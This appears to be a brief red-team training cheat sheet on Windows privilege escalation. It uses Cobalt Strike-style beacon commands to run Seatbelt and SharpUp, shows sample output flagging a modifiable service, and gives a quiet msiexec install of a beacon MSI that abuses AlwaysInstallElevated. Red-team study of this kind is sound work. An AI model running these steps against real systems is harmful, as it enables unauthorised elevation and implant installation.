 # RTO CheatSheet

## Persistence

### COM Hijacking

<TODO>
  
## PrivEsc
  
### Enumeration
  
#### Seatbelt
  
https://github.com/GhostPack/Seatbelt
  
Sample usage:
  
> beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
  
#### SharpUp

https://github.com/GhostPack/SharpUp

Sample usage:
  
> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
> 
> === Modifiable Services ===
> 
>  Name             : Vuln-Service-2
>
>  DisplayName      : Vuln-Service-2
>
>  Description      : 
>
>  State            : Running
>
>  StartMode        : Auto
>
>  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"

Detects:
  - Modifiable Service
  - AlwaysInstallElevated flags in Registry
  
### Weaponized

#### AlwaysInstallElevated - Install msi package file

> beacon> run msiexec /i BeaconInstaller.msi /q /n

